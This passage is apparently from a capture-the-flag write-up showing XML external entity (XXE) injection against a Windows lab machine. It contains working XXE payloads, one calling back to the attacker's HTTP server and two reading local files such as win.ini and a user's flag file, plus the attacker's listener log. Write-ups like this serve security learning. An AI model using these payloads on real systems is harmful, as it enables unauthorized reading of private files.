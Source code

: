 ```xml
<?xml version = "1.0"?>
<!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY sp SYSTEM "http://10.10.16.2/"> ]> 
<order>
	<quantity>
		9
	</quantity>
	<item>
		&sp;
	</item>
	<address>
		Hello, Friend!
	</address>
</order>
```

```shell
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.192 - - [20/Sep/2022 04:07:57] "GET / HTTP/1.0" 200 -
````

Now I can read the contents of any file in the target machine, also In my attempts, I saw error messages that confirm that I'm dealing with a Windows operating system machine. I then tried to read the `win.ini` file to further confirm I can read files from the target system with the payload:

```xml
<?xml version = "1.0"?>
<!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY sp SYSTEM "file:///C:/windows/win.ini"> ]>
 <order>
 	<quantity>
 		9
 	</quantity>
 	<item>
 		&sp;
 	</item>
 	<address>
 		Hello, Friend!
 	</address>
 </order>
```

![Get win.ini with Burp Suite](https://imgur.com/WHbqLiS.png)

And since I already have a solid guess of the target username, I went ahead and sent a payload to view the user flag which is normally located in the Desktop folder of the user.

```xml
<?xml version = "1.0"?>
<!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY sp SYSTEM "file:///C:/users/daniel/desktop/user.txt"> ]>
 <order>
 	<quantity>
 		9
 	</quantity>
 	<item>
 		&sp;
 	</item>
 	<address>
 		Hello, Friend!
 	</address>
 </order>
```
